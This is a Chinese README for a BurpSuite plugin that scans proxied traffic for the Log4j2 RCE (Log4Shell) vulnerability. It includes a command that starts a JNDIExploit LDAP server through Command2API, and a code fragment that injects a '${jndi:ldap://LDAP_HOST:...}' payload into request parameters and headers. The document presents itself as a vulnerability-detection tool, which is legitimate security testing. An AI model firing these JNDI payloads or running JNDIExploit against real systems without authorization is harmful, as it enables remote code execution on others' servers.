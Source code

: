 # Log4j2 RCE Scanner

**作者**：key@元亨实验室

**声明**：由于传播、利用本项目所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，项目作者不为此承担任何责任。

**小广告**：实验室纳新招人，岗位方向有安全研究（攻防、漏洞）、威胁情报（APT分析）、内部安全（SDL、安全研发），简历投递至邮箱：c2VjdXJpdHlAemhvbmdmdS5uZXQ=

## 前言

这是一个用于扫描近期爆出的Log4j2 RCE漏洞的BurpSuite插件，其原理就是基于BurpSuite提供的被动式扫描API，对流经Burp Proxy模块的流量进行全量扫描，扫描作用域为：请求参数（JSON字段、正常请求参数、Cookie参数、XML字段、Mulitpart）、请求头（请求自带请求头与自定义请求头）。

它与其他插件的区别：

1. 一个点一个Payload（Hash区分），便于追踪漏洞位置；
2. 仅支持LDAP Log接口，不支持DNS扫描探测，便于快速定位有效漏洞位置进行自查自检；
3. 使用Python（Jython）编写，可以非常快速的进行二次开发、代码阅读，例如你可以改造这个项目为SQL注入、XSS盲打的探测插件；
4. 支持扫描作用域相对较全。

## 使用方法

1. **准备工作**：该插件用Python（Jython）所写，所以需要你的BurpSuite加载Jython的Jar包，下载地址：https://repo1.maven.org/maven2/org/python/jython-standalone/2.7.2/jython-standalone-2.7.2.jar ，BurpSuite加载位置：BurpSuite - Extender - Options - Python Environment - Location of Jython standalone JAR file。

2. **准备LDAP Log接口**：由于插件的特殊性，在不更改插件代码的情况下，建议你准备一台服务器，在上面部署LDAP服务并提供一个Web API给到插件，这里推荐[Command2API](https://github.com/gh0stkey/Command2API)项目，搭配JNDIExploit使用。

   ```python
   python Command2Api.py "java -jar JNDIExploit.v1.2/JNDIExploit-1.2-SNAPSHOT.jar -i 0.0.0.0" 9889
   ```

   ![](images/0.png)

3. **填写配置**：下载Python文件到本地，存储在无空格、无特殊符号、无中文的目录下，接着替换如下代码：

   ```python
   # LDAP_API_HOST -> LDAP Log接口的主机地址（域名/IP，请注意内、外网环境）
   # LDAP_API_PORT -> LDAP Log接口的主机端口
   # LDAP_API_PORT -> LDAP Log接口的路由
   # 建议搭配Command2API项目一起使用，其他接口请自行更改代码
   url = "http://LDAP_API_HOST:LDAP_API_PORT/LDAP_API_ROUTE"
   # LDAP_HOST -> LDAP 服务的主机地址（域名/IP，请注意内、外网环境）
   # LDAP_PORT -> LDAP 服务的主机端口
   return self._helpers.urlEncode("${jndi:ldap://LDAP_HOST:LDAP_PORT/" + random_md5 + "}")
   ```

   ![](images/2.png)

4. **加载插件**：BurpSuite加载位置：BurpSuite - Extender - Extensions - Burp Extensions - Add。

   ![](images/1.png)

5. **开始扫描**：浏览器挂上BurpSuite代理，让流量流经BurpSuite，插件会自动扫描，或者你可以选择结合爬虫的方式将爬虫流量过到BurpSuite进行扫描。

6. **扫描结果**：扫描结果会在Burp Dashboard中展示出来，并且有具体的请求报文，如下图所示，分别是Command2API与LDAP服务接收的日志（**由于该漏洞的触发特殊性，建议对这些日志和BurpSuite流量进行保存**）以及Burp的扫描结果。

   ![](images/3.png)

